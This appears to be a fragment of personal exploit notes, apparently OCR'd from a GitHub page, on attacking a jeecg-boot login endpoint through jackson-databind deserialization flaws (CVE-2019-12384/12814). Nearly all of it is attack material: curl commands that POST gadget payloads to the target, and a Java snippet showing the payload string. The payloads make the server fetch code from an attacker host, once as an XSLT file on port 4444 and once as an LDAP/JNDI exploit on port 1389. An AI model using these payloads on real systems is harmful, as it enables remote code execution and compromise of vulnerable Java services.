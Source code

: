 # read file

not have such

```log
Could not resolve type id 'org.jdom2.transform.XSLTransformer' as a subtype 
```

reference [link](https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/FasterXML%20jackson/%EF%BC%88CVE-2019-12384%EF%BC%89%EF%BC%88%20CVE-2019-12814%EF%BC%89FasterXML%20jackson-databind%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

target = "/Users/xiangjiahao/minicom.log"

## target server

```shell
curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d "{  \"captcha\": \"string\",  \"password\": \"jeecg\",  \"username\": \"jeecg\"}"
```

## payload

the deserialize payload

```java
String payload = "[\"org.jdom2.transform.XSLTransformer\", \"http://192.168.85.130:4444/poc.xml\"]";
mapper.readValue(payload, Object.class);
```

how to use the curl command to send the payload to the target server

```shell
curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d "[\"org.jdom2.transform.XSLTransformer\", \"http://192.168.85.130:4444/poc.xml\"]"

```

curl -X POST "http://192.168.1.102:8080/jeecg-boot/sys/login" -H  "accept: */*" -H  "Content-Type: application/json" -d  "[\"com.sun.org.apache.xalan.internal.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://192.168.85.130:1389/Exploit\"}]"
